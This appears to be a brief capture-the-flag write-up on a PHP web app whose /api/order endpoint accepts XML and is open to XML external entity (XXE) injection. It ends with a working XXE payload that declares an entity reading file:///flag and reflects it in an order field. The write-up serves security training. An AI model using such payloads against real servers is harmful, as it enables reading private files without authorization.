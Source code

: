 - provided with source code for PHP web app
- can be seen that `/api/order` endpoint is vulnerable to XXE injection whenever the `content-type` header is set to `application/xml`
- flag can be retrieved at `/flag` after trying multiple locations around the server
 
```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///flag"> ]>
<order>
  <table_num>3</table_num>
  <food>&ent;</food>
</order>
```

#### Tags: XXE

